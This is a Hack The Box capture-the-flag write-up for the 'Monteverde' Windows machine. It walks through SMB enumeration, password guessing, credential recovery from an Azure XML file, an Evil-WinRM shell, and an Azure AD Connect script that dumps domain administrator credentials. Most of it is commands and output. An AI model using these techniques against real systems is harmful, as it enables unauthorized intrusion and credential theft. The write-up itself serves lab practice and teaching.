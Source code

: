 ```yaml
---
title: Monteverde
author: fieldraccoon
date: 2020-06-21 
categories: [hack-the-box, windows]
tags: [hack-the-box, smb, windows-exploits, medium]
math: true
---
```

# Monteverde

Monteverde was a medium windows box that involved many common windows exploitation techniques and didnt require much to get both the user and root flags

>Skills onvolved in this box:
- enumeration
- smbclient
- CrackMapExec & enum4linux
- windows privelage escalation

# USER

>Nmap
First we start off with an nmap scan and it reveals many ports open but the ones we are interested in are port 139/445 allowing access to smb.
```bash
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-01-14 07:23:00Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
```

We decide to enumerate further with enum4linux and get a list of users on the box.
```bash 
./enum4linux.pl -a 10.10.10.172
```
 reveals the users:
```bash
MEGABANK\Administrator
MEGABANK\krbtgt
MEGABANK\AAD_987d7f2f57d2
MEGABANK\mhope
MEGABANK\SABatchJobs
MEGABANK\svc-ata
MEGABANK\svc-bexec
MEGABANK\svc-netapp
MEGABANK\dgalanos
MEGABANK\roleary
MEGABANK\smorgan
```
The main user that sticks out here is SABatchJobs.
We then try to logon to the box with smbclient:
`smbclient -L 10.10.10.172 -U SABatchJobs` We try a few guesssing passwords and we manage to login with `SABatchJobs:SABatchJobs`
```bash
kali@kali:~$ smbclient -L 10.10.10.172 -U SABatchJobs
Enter WORKGROUP\SABatchJobs's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        azure_uploads   Disk      
        C$              Disk      Default share
        E$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        users$          Disk      
SMB1 disabled -- no workgroup available
```
We spot the users$ file lets take a look at that:
```bash
kali@kali:~$ smbclient //10.10.10.172/users$ -U SABatchJobs
Enter WORKGROUP\SABatchJobs's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Jan  3 08:12:48 2020
  ..                                  D        0  Fri Jan  3 08:12:48 2020
  dgalanos                            D        0  Fri Jan  3 08:12:30 2020
  mhope                               D        0  Fri Jan  3 08:41:18 2020
  roleary                             D        0  Fri Jan  3 08:10:30 2020
  smorgan                             D        0  Fri Jan  3 08:10:24 2020

                524031 blocks of size 4096. 519955 blocks available
smb: \> 
```
We take a look around the users but the only usefull thing we can find is in the dir `mhope`

We find a file called `azure.xml` and we donwload it to our box, we can jsut use `get` or for me i got a timeout error so i mounted it to my box using:
```bash
sudo mount -t cifs //10.10.10.172/users$ /mnt/monteverde -o user=SABatchJobs
```
>azure.xml:
```xml
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>

```
We find the password `4n0therD4y@n0th3r$` lets use this to try login with evil-winrm, we will use the user mhope as that is the user direcotry where we found the xml file
```bash
kali@kali:~$ evil-winrm -u mhope -p 4n0therD4y@n0th3r$ -i 10.10.10.172

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mhope\Documents> cd ..
*Evil-WinRM* PS C:\Users\mhope> cd Desktop
*Evil-WinRM* PS C:\Users\mhope\Desktop> ls


    Directory: C:\Users\mhope\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         1/3/2020   5:48 AM             32 user.txt


*Evil-WinRM* PS C:\Users\mhope\Desktop> type user.txt
4961976bd7d8f4eeb2ce3705e2f212f2
*Evil-WinRM* PS C:\Users\mhope\Desktop>
```
There we go and we get the user flag!

# ROOT

We start by checking permissions for our user `whoami /groups` brings back some interseting results:
```bash
*Evil-WinRM* PS C:\Users\mhope\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
MEGABANK\Azure Admins                       Group            S-1-5-21-391775091-850290835-3566037492-2601 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group

```
`MEGABANK\Azure Admins` seems to be usefull somehow, after a google search we find a priv esc tool called `AzureADConnect` which spits out the admin creds for the box, so we try and utilise this. https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1 <-- for the tool 

```bash
*Evil-WinRM* PS C:\Users\mhope\Desktop> import module ./AzureADConnect.ps1 <-- from our box
*Evil-WinRM* PS C:\Users\mhope\Desktop> AzureADConnect -server 127.0.0.1 -db ADSync
[+] Domain:  MEGABANK.LOCAL
[+] Username: Administrator
[+] Password: d0m@in4dminyeah!
```
Great now we have creds for the administrator lets log in and grab the root flag!
```bash
kali@kali:~/boxes/monteverde$ evil-winrm -u Administrator -p d0m@in4dminyeah! -i 10.10.10.172

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint


*Evil-WinRM* PS C:\Users\Administrator\Documents> 
cd*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         1/3/2020   5:48 AM             32 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
12909612d25c8dcf6e5a07d1a804a0bc
```
Thanks for reading hope you enjoyed!

